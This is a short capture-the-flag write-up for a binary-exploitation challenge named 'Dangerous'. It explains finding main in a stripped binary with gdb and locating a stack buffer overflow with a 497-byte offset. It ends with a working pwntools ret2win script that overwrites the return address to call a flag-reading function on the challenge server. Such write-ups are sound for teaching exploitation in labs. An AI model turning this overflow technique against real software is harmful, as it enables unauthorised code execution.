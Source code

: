 # Dangerous

The binary is stripped of symbols, and even radare2 cannot resolve main, so this is a little difficult.

I stepped through in gdb in __libc_start_main until the call rax instruction. 

At this point, rax was 0x4011d6, indicating to us that this was the address of main. 
I used x/100i to view all the instructions at this point, and found a small little buffer overflow. 

We can use pattern.py to find the offset till the return address is 497.

Looking a little past main, there appears to be another function. It calls open, then read, then puts. 

If we do some calculation on RIP and use x/s, we find that it calls open on flag.txt! This must be the flag function.

Essentially, we have a simple ret2win exploit. Overwrite ret address with the flag function.

```python
from pwn import *
NUM_TO_RET = 497
flag =  0x401312
padding = b'A' * NUM_TO_RET
#p = process("./dangerous")
p = remote("jh2i.com", 50011)
p.sendline(flat(padding, flag, word_size=64))
p.interactive()
```
